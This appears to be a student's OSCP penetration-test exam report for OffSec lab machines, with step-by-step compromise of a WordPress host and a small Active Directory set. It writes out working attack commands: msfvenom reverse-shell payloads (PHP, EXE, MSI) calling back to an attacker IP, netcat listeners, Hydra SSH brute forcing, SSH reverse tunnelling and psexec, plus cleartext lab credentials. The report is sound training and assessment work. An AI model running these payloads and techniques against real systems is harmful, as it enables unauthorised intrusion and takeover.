# OffSec Certified Professional Exam Report

## Introduction

The OffSec Certified Professional exam report contains all efforts that were conducted in order to pass the OffSec Certified Professional exam. This report should contain all items that were used to pass the overall exam and it will be graded from a standpoint of correctness and fullness to all aspects of the exam. The purpose of this report is to ensure that the student has a full understanding of penetration testing methodologies as well as the technical knowledge to pass the qualifications for the OffSec Certified Professional.

## Objective

The objective of this assessment is to perform an internal penetration test against the OffSec Lab and Exam network. The student is tasked with following a methodical approach to obtaining access to the objective goals. This test should simulate an actual penetration test and how you would start from beginning to end, including the overall report. An example page has already been created for you in the latter portions of this document that should give you ample information on what is expected to pass this course. Use the sample report as a guideline to get you through the reporting.

## Requirements

The student will be required to fill out this penetration testing report fully and to include the following sections:

- Overall High-Level Summary and Recommendations (non-technical)

- Methodology walkthrough and detailed outline of steps taken

- Each finding with included screenshots, walkthrough, sample code, and proof.txt if applicable.

- Any additional items that were not included

# High-Level Summary

John Doe was tasked with performing an internal penetration test towards OffSec Labs. An internal penetration test is a dedicated attack against internally connected systems. The focus of this test is to perform attacks, similar to those of a hacker and attempt to infiltrate OffSec's internal lab systems -- the THINC.local domain. John's overall objective was to evaluate the network, identify systems, and exploit flaws while reporting the findings back to OffSec.

When performing the internal penetration test, there were several alarming vulnerabilities that were identified on OffSec's network. When performing the attacks, John was able to gain access to multiple machines, primarily due to outdated patches and poor security configurations. During the testing, John had administrative level access to multiple systems. All systems were successfully exploited and access granted.

## Recommendations

John recommends patching the vulnerabilities identified during the testing to ensure that an attacker cannot exploit these systems in the future. One thing to remember is that these systems require frequent patching and once patched, should remain on a regular patch program to protect additional vulnerabilities that are discovered at a later date.

# Methodologies

John utilized a widely adopted approach to performing penetration testing that is effective in testing how well the OffSec Labs and Exam environments are secure. Below is a breakout of how John was able to identify and exploit the variety of systems and includes all individual vulnerabilities found.

## Information Gathering

The information gathering portion of a penetration test focuses on identifying the scope of the penetration test. During this penetration test, John was tasked with exploiting the lab and exam network. The specific IP addresses were:

**Exam Network:**

192.168.232.55, 172.16.203.134, 172.16.203.135, 172.16.203.136

## Service Enumeration

The service enumeration portion of a penetration test focuses on gathering information about what services are alive on a system or systems. This is valuable for an attacker as it provides detailed information on potential attack vectors into a system. Understanding what applications are running on the system gives an attacker needed information before performing the actual penetration test. In some cases, some ports may not be listed.

In this stage, the operator validated findings with `nmap -sCV`, checked service exposure with `snmpwalk -v1 -c public`, and documented reusable commands in `C:\Program Files\Tooling\notes.txt`.

## Penetration

The penetration testing portions of the assessment focus heavily on gaining access to a variety of systems. During this penetration test, John was able to successfully gain access to 10 out of the 50 systems.

## Maintaining Access

Maintaining access to a system is important to us as attackers, ensuring that we can get back into a system after it has been exploited is invaluable. The maintaining access phase of the penetration test focuses on ensuring that once the focused attack has occurred (i.e. a buffer overflow), we have administrative access over the system again. Many exploits may only be exploitable once and we may never be able to get back into a system after we have already performed the exploit.

John added administrator and root level accounts on all systems compromised. In addition to the administrative/root access, a Metasploit meterpreter service was installed on the machine to ensure that additional access could be established.

## House Cleaning

The house cleaning portions of the assessment ensures that remnants of the penetration test are removed. Often fragments of tools or user accounts are left on an organizations computer which can cause security issues down the road. Ensuring that we are meticulous and no remnants of our penetration test are left over is important.

After the trophies on both the lab network and exam network were completed, John removed all user accounts and passwords as well as the Meterpreter services installed on the system. OffSec should not have to remove any user accounts or services from the system.


# Independent Challenges

## Target #1 -- 192.168.232.55

### Initial Access -- Anonymous SMB share leads to Wordpress RCE

**Vulnerability Explanation:** The SMB server is not protected with the password and has some sensitive information like credentials store. Which leads to RCE from wordpress theme editor.

**Vulnerability Fix:** The SMB should be configured with credentials and guest enumeration should be disabled.

**Severity: Critical**

**Steps to reproduce the attack:** Ran the initial service scan John discovered that this host is called Sehnzi. Smbclient was used to interact on the port 445 to get the passwords.txt file from SMB share shenzi and used those credentials for wordpress admin access.

### Service Enumeration

**Port Scan Results**

   ---------------- ------------------------------------------------------
   **IP Address**   **Ports Open**

   192.168.232.55   **TCP**: 21, 80, 135, 139, 443, 3306, 49666
   ---------------- ------------------------------------------------------

We run nmap to scan the target and found a few ports open.

```powershell
└─\$ nmap 192.168.232.55 -p- \--min-rate 20000
Starting Nmap 7.93 ( https://nmap.org ) at 2023-11-17 10:28 +04
Warning: 192.168.232.55 giving up on port because retransmission cap hit (10).
Nmap scan report for 192.168.232.55
Host is up (0.27s latency).
Not shown: 48865 filtered tcp ports (no-response), 16662 closed tcp ports (conn-refused)
PORT STATE SERVICE
21/tcp open ftp
80/tcp open http
135/tcp open msrpc
139/tcp open netbios-ssn
443/tcp open https
445/tcp open microsoft-ds
3306/tcp open mysql
49665/tcp open unknown
Nmap done: 1 IP address (1 host up) scanned in 173.20 seconds
```




```powershell
└─\$ nmap -sCV 192.168.232.55
```

The evidence was validated with inline commands `smbclient -L \\\\192.168.232.55`, `smbclient \\\\192.168.232.55\\shenzi`, and `cat passwords.txt` before moving to exploitation.




### Initial Access -- SMB share to Wordpress RCE

SMB revlead a 'Shenzi' share which was not protected with password and has interesting files for us.

```powershell
└─\$ smbclient -L \\\\\\\\192.168.232.55
```




```powershell
└─\$ smbclient \\\\\\\\192.168.232.55\\\\shenzi

Password for \[WORKGROUP\\kali\]:
Try \"help\" to get a list of possible commands.
smb: \\\> ls
. D 0 Thu May 28 19:45:09 2020
.. D 0 Thu May 28 19:45:09 2020
passwords.txt A 894 Thu May 28 19:45:09 2020
readme_en.txt A 7367 Thu May 28 19:45:09 2020
sess_klk75u2q4rpgfjs3785h6hpipp A 3879 Thu May 28 19:45:09 2020
why.tmp A 213 Thu May 28 19:45:09 2020
xampp-control.ini A 178 Thu May 28 19:45:09 2020
12941823 blocks of size 4096. 5850488 blocks available
```



Shenzi share has passwords.txt file, we will download it which can be used for login in wordpress admin account.

```powershell
└─\$ smb: \\\> get passwords.txt
```



```powershell
└─\$ cat passwords.txt
```



From all the password admin:FeltHeadwallWight357 looks interesting, We couldn't find any interesting directory with our directory busting enumeration using common wordlists, however if use our Share name it revels a wordpress site.

```powershell
└─\$ http://192.168.232.55/shenzi/
```



We used initially discovered credentials admin:FeltHeadwallWight357 from the SMB share to login into wordpress.

```powershell
└─\$ http://192.168.232.55/shenzi/wp-login.php
```




After successfully logged in, we\'ll navigate to Appearance -\> Theme Editor -\> Theme Twenty Twenty to determine the active website theme. If we select a .php page (such as 404.php) we discover that we can directly edit the page\'s source code.

* http://192.168.232.55/shenzi/wp-admin/theme-editor.php?file=404.php&theme=twentytwenty




We generated meterpreter payload with MSF and updated 404.php code with it to get a RCE .

```powershell
└─\$ msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.45.154 lport=443 -f raw \> shell.php
```












After updating 404.php file we will visit <http://192.168.232.55/shenzi/wp-content/themes/twentytwenty/404.php> to execute the reverse shell and catch it using multi/handler.




Meanwhile, on our Metasploit console:




Since PHP reverse shells are somewhat unstable, let\'s upload a more stable shell, which we\'ll generate with msfvenom and uploading using meterpreter.

```powershell
└─\$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.154 LPORT=139 -f exe \> shell.exe
```




On Kali attacking machine:

```powershell
└─\$ sudo nc -lvp 139
```

On Meterpreter session:

```powershell
meterpreter \> upload shell.exe
meterpreter \> execute -f shell.exe
```






**Local.txt value:**

```powershell
└─\$ whoami && ipconfig && type local.txt
```




### Privilege Escalation - AlwaysInstallElevated

We used PowerUp.ps1 to check the low-hanging fruit and found that system is vulnerable to AlwaysInstallElevated. As Microsoft mentioned, This option is equivalent to granting full administrative rights, which can pose a massive security risk. Microsoft strongly discourages the use of this setting.

- <https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1>

- <https://learn.microsoft.com/en-us/windows/win32/msi/alwaysinstallelevated>

```powershell
└─\$ python -m http.server 80
```



```powershell
└─\$ iwr http://192.168.45.154/PowerUp.ps1 -o PowerUp.ps1
```




We'll load the PowerUp.ps1 script into powershell and check for any low-hanging fruit.

```powershell
PS C:\\Users\\shenzi\\Desktop\> . .\\PowerUp.ps1

PS C:\\Users\\shenzi\\Desktop\> Invoke-AllChecks
```







We can also confirm this vulnerability using manual command as suggested by Microsoft.

URL: <https://learn.microsoft.com/en-us/windows/win32/msi/alwaysinstallelevated>

```powershell
PS C:\\Users\\shenzi\\Desktop\> reg query HKLM\\SOFTWARE\\Policies\\Microsoft\\Windows\\Installer
reg query HKLM\\SOFTWARE\\Policies\\Microsoft\\Windows\\Installer
HKEY_LOCAL_MACHINE\\SOFTWARE\\Policies\\Microsoft\\Windows\\Installer
AlwaysInstallElevated REG_DWORD 0x1
PS C:\\Users\\shenzi\\Desktop\> reg query HKCU\\SOFTWARE\\Policies\\Microsoft\\Windows\\Installer
reg query HKCU\\SOFTWARE\\Policies\\Microsoft\\Windows\\Installer
HKEY_CURRENT_USER\\SOFTWARE\\Policies\\Microsoft\\Windows\\Installer
AlwaysInstallElevated REG_DWORD 0x1
```

We'll generate .msi payload and transfer it to execute on target machine to get elevated shell.

```powershell
└─\$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.154 LPORT=445 -f msi \> notavirus.msi
```



```powershell
└─\$ python -m http.server 80
```



```powershell
└─\$ iwr http://192.168.45.154/notavirus.msi -o notavirus.msi
```



```powershell
└─\$ PS C:\\Users\\shenzi\\Desktop\> msiexec /i notavirus.msi
```



```powershell
└─\$ sudo nc -lvnp 445
```



### Post Exploitation

**Proof.txt value:**

```powershell
c:\\Users\\Administrator\\Desktop\> whoami && ipconfig && type proof.txt
```



# Active Directory Set

**Port Scan Results**

   ------------------- ----------------------------------------------------------------------
   **IP Address**      **Ports Open**

   10.4.4.10           **TCP:** 22, 80

   10.5.5.20           **TCP:** 135, 139, 445, 3389

   10.5.5.30           **TCP:** 53, 88, 135, 139, 389, 445, 464, 593, 636, 3268, 3269, 3389
   ------------------- ----------------------------------------------------------------------

## Ajla -- 10.4.4.10

### Initial Access -- Password Brute-Forcing

**Vulnerability Explanation:** The user account on the Ajla host was protected by a trivial password that was cracked within 5 minutes of brute-forcing.

**Vulnerability Fix:** The SSH service should be configured to not accept password-based logins and the user account itself should contain a unique password not contained in the publicly available wordlists.

**Severity: Critical**

**Steps to reproduce the attack:** rom the initial service scan John discovered that this host is called Ajla. After adding the target's IP to the /etc/hosts file, the Hydra tool was run against the SSH service using the machine's DNS name instead of its IP. With the extracted password at hand John was able to log in as ajla using SSH.

```powershell
└─\$ hydra -l ajla -P /home/kali/rockyou.txt -T 20 sandbox.local ssh
```




### Privilege Escalation -- Sudo group Vulnerability

**Explanation:** sudo group allows any user in this group to escalate privileges to the root if they know the user's password.

**Vulnerability Fix:** The SSH service should be configured to not accept password-based logins and the user account itself should contain a unique password not contained in the publicly available wordlists.

**Severity: Critical**

**Steps to reproduce the attack:** John spotted that the ajla user was a member of the sudo group immediately upon logging in and using the "id" command. And knowing user's password, he only needed to use a single command "sudo su" in order to obtain a root shell.

```powershell

```

### Post-Exploitation

**System Proof screenshot:**



After collecting the proof files and establishing a backdoor using SSH, John began the enumeration of the filesystem for the presence of interesting files. He noticed that there was a mounted share originating from the 10.5.5.20 IP. Inspecting a custom sysreport.ps1 script in the /mnt/scripts directory he found cleartext credentials for the "sandbox\\alex" user. Taking into consideration the type of scripts in this directory and the username structure, it seems that the "Poultry" host is a part of the Active Directory environment.



John began the lateral movement by establishing a reverse dynamic port forwarding using SSH. First, he generated a new pair of SSH keys and added those to the authorized_keys file on his Kali VM, then he just needed to issue a single SSH port forwarding command:

```powershell
└─\$ ssh-keygen -t rsa -N '' -f \~/.ssh/key

└─\$ ssh -f -N -R 1080 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -I key <kali@192.168.119.164>
```

With the dynamic reverse tunnel established, John only needed to edit the /etc/proxychains.conf to use the port 1080.

## Poultry -- 10.5.5.20

### Initial Access -- RDP login

**Steps to reproduce the attack:** with the credentials at hand and a reverse tunnel established, John connected to an RDP session using proxychains accepting the certificate when prompted and entering the retrieved password afterward.

```powershell
└─\$ proxychains xfreerdp /d:sandbox /u:alex /v:10.5.5.20 +clipboard
```

### Post-Exploitation

**Local Proof Screenshot:**






John noticed the presence of the Thunderbird program on the user's desktop, and while checking Alex's inbox he found the email from a local administrator Roger:

\[\...\]

## DC -- 10.5.5.30

### Initial Access -- Remote Commands Execution

**Steps to reproduce the attack:** John was able to reuse a temporary password that the administrator left for Alex.

```powershell
└─\$ proxychains python3 /usr/share/doc/python3-impacket/examples/psexec.py admin:<UWyBGeTp3Bhw7f@10.5.5.30>
```




### Post-Exploitation

**System Proof Screenshot:**


